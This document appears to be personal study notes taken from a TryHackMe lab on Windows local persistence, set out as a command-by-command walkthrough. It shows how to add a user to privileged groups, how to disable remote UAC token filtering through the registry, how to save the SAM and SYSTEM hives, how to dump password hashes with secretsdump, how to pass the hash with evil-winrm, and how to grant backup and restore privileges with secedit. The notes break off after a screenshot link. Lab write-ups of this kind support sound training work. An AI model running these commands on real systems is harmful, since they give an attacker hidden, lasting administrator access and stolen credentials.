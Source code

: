 # Windows Persistance 
## Assign Group Memberships
- The direct way to make an unprivileged user gain administrative privileges is to make it part of the Administrators group. We can easily achieve this with the following command:
````
net localgroup administrators jack /add
````
- This will allow you to access the server by using RDP, WinRM or any other remote administration service available.
- Can also use the **Backup Operators** group. Users in this group won't have administrative privileges but will be allowed to **read/write any file or registry key** on the system, ignoring any configured DACL.
````
net localgroup "Backup Operators" jack /add
````
- Since this is an unprivileged account, it **cannot RDP or WinRM** back to the machine unless we **add it to the Remote Desktop Users (RDP) or Remote Management Users (WinRM)** groups. We'll use WinRM.
````
net localgroup "Remote Management Users" jack /add
````
- Check the groups and make sure they are not disabled 
````
whoami /groups
GROUP INFORMATION
-----------------
Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators               Alias            S-1-5-32-551 Group used for deny only
````
- This is due to **User Account Control (UAC)**. One of the features implemented by UAC, `LocalAccountTokenFilterPolicy`, strips any local account of its administrative privileges when logging in remotely. While you can elevate your privileges through UAC from a graphical user session, if you are using WinRM, you are confined to a limited access token with no administrative privileges.
- Disable `LocalAccountTokenFilterPolicy` by changing the following registry key to 1:
````
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
````
## SAM SYSTEM Exfil / Pass The Hash
- We then proceed to make a backup of `SAM` and `SYSTEM` files and download them to our attacker machine:
````
reg save hklm\system system.bak
reg save hklm\sam sam.bak
````
- With those files, we can dump the password hashes for all users using secretsdump.py or other similar tools:
````
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3:::
--snip--
````
- And finally, perform Pass-the-Hash to connect to the victim machine with Administrator privileges:
````
evil-winrm -i MACHINE_IP -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
````
## Special Privileges and Security Descriptors
- A similar result to adding a user to the Backup Operators group can be achieved without modifying any group membership. 
- Special groups are only special because the operating system assigns them specific privileges by default. Privileges are simply the capacity to do a task on the system itself.
- Complete list of all privileges:
- https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants
- In the case of the Backup Operators group, it has the following two privileges assigned by default:
- `SeBackupPrivilege`: The user can read any file in the system, ignoring any DACL in place.
- `SeRestorePrivilege`: The user can write any file in the system, ignoring any DACL in place.
- We can assign such privileges to any user, independent of their group memberships. To do so, we can use the `secedit` command. First, we will export the current configuration to a temporary file:
````
secedit /export /cfg config.inf
````
- We open the file and add our user to the lines in the configuration regarding the SeBackupPrivilege and SeRestorePrivilege:
- ![765671a0355e2260c44e5a12a10f090e](https://user-images.githubusercontent.com/75596877/180827452-97d0b2b3-cd89-459f-95ee-4d5276a41516.png)
- 















### Credit: 
All credit to the content of this page goes to the origional author
- https://tryhackme.com/room/windowslocalpersistence
- https://tryhackme.com/p/munra
- https://tryhackme.com/p/tryhackme




